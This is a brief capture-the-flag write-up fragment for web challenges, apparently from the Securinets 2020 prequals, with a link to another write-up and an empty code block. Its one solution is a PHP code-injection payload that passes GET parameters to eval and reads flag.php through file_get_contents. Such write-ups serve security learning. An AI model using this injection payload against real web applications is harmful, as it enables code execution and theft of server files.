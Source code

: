 # Web

## WELCOME

```
?cmd=$n=ne.xt;eval($n($_GET));&a=print_r(file_get_contents("flag.php"));
```

## The After Prequal

https://github.com/kratel/ctf_writeups/tree/master/securinets_2k20_prequals/web/the_after_prequal

```
```